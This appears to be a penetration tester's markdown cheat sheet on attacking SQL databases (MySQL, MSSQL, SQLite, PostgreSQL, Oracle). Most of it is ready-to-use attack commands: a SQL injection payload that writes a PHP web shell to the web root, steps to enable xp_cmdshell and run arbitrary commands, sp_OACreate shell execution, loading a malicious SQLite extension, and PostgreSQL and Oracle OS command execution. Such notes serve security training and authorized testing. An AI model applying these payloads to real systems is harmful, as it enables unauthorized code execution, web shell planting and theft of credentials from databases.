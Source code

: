 ```yaml
---
layout: blank
pagetitle: SQL Attacks
---
```


**Viewing General Databases with Credentials**
- Use `dbeaver` on kali, has a nice GUI and everything

**MySQL**
- MariaDB is an open-source fork
- `mysql -u {username} -p -h {host IP} -P {port}`
- Specifying multiple parameters `SELECT user, passhash FROM mysql.user WHERE user = '{username}'`
- Enumeration:
	- List all databases: `SELECT * FROM information_schema.tables;`
	- Version: `SELECT @@version;`
	- Current user: `SELECT system_user();`
- MySQL RCE via SQLi
	- Use the `INTO OUTFILE` to create a PHP/JSP/ASPX/etc shell
		- Example: `' UNION SELECT "<?php system('whoami');?>", null, null INTO OUTFILE "/var/www/html/tmp/shell.php" -- // `
			- `tmp` is important, because we might not have perms for `/html`
		- Then, either LFI the new file or straight up access it if possible
	- Can also extract users/passwords and crack hashes
	- Could search up phpmyadmin version to get RCE (LFI + session cookie can lead to RCE)


**MSSQL**
- Database management built into Windows
- Command-line tool `SQLCMD` allows SQL queries through cmd
- Kali has `impacket-mssqlclient` to connect to MSSQL databases
	- `impacket-mssqlclient {username}@{host IP} -windows-auth`
		- After opening SQL terminal, can run EXECUTE commands using xp_cmdshell
			- This can be enabled by a user with permissions with 
			- `EXECUTE sp_configure 'show advanced options', 1; 
				- Showing advanced options is actually required to run xp_cmdshell
			- `RECONFIGURE;` 
			- `EXECUTE sp_configure 'xp_cmdshell', 1;`
			- `RECONFIGURE;`
			- Then, pass arbitrary commands with `EXECUTE xp_cmdshell 'whoami';`
	- `-windows-auth` forces the use of NTLM auth (rather than Kerberos)
- List all databases: 
	- `SELECT name FROM sys.databases;`
	- Then, `SELECT * FROM {database name from first query}.information_schema.tables;`
	- This returns the tables within that database, which we can query from with `SELECT * from {database name}.dbo.{table name}`
		- `dbo` is a table schema
- Can also use `sp_OACreate` to execute commands
	`EXEC sp_OACreate 'WScript.Shell', @shell OUTPUT; EXEC sp_OAMethod @shell, 'Run', NULL, 'cmd.exe /c {command}';`
- Linked servers can execute remote queries (MSSqlPwner)

**SQLite**
- Use `sqlitebrowser` for viewing sqlite databases
- Can't execute functions, but can load malicious files
	- `SELECT load_extension('/tmp/malicious.so');`
- `SQLite CLI` allows command execution with `.shell {command}` or `.system {command}`
- Outdated versions may have RCE CVEs

**PostgreSQL**
- Use `psql` for to connect to PostgreSQL databases
- Command execution with `COPY mytable TO PROGRAM 'whoami';`
	- Requires superuser
- Command execution with `SELECT pg_execute_server_program('id');`
	- This won't require superuser, but will require `pg_execute_server_program`

**Oracle**
- Comand execution with `EXEC dbms_java.runjava('java.lang.Runtime.getRuntime().exec("{command}")');`